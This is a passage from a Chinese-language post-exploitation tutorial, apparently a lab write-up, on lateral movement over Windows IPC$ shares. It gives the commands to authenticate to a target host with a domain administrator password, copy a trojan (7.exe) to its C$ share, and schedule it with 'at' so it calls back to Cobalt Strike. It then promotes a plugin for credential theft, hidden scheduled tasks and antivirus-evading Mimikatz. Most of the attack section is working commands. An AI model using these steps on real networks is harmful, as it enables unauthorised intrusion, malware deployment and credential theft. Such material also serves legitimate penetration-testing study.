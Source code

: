 ```
shell net use \\192.168.20.30\ipc$ "admin@123" /user:yuto.com\administrator
```

![image-20230624070637585](https://s2.loli.net/2023/06/24/b3FPQAmf1RdZsqD.png)

## 上传木马

将木马上传到获取权限的这台主机，然后通过这台主机将木马上传至目标主机中。

![image-20230624070747860](https://s2.loli.net/2023/06/24/NQD3lKXWacO7VYj.png)

然后将木马复制到目标主机中。

```
shell copy 7.exe \\192.168.20.30\c$
```

![image-20230624071314436](https://s2.loli.net/2023/06/24/pUB26xdieYjCTW7.png)

## 设定定时任务

将木马上传后，就可以设定定时任务了，这里首先查询一下目标主机的时间，这样可以确保我们设置的时间是对的。

```
shell net time \\192.168.20.30
```

![image-20230624071409341](https://s2.loli.net/2023/06/24/rgTwzLeHJY54MVc.png)

这里我打码的是句柄无效，是由于我上面输入的ip地址错误了，后面输入对了，导致反馈信息到这行了，所以就打了个码。

```
shell at \\192.168.20.30 7:16 c:\7.exe
```

![image-20230624071546087](https://s2.loli.net/2023/06/24/JRA4hI5ZTc71kup.png)

## 上线情况

这里是成功上线。 

![image-20230624071724703](https://s2.loli.net/2023/06/24/4jHAJIN1hEY9QWR.png)

# 横向移动—IPC插件&工具

这里我只介绍工具吧，就不演示了，说实话，除了cs插件有点用，像其它的软件或者可执行文件都太大了，上传就被发现，还很明显，有需要的自行找相关的文章。

## cs插件---LSTAR - Aggressor

一个插件从上线到域控  实现内网漫游，本着简化 CS 右键和方便自己集成的目的，参考大量后渗透插件，重构和丰富了主机相关凭据获取、多级内网穿透、隐蔽计划任务、免杀的 Mimikatz 和克隆添加用户等功能。
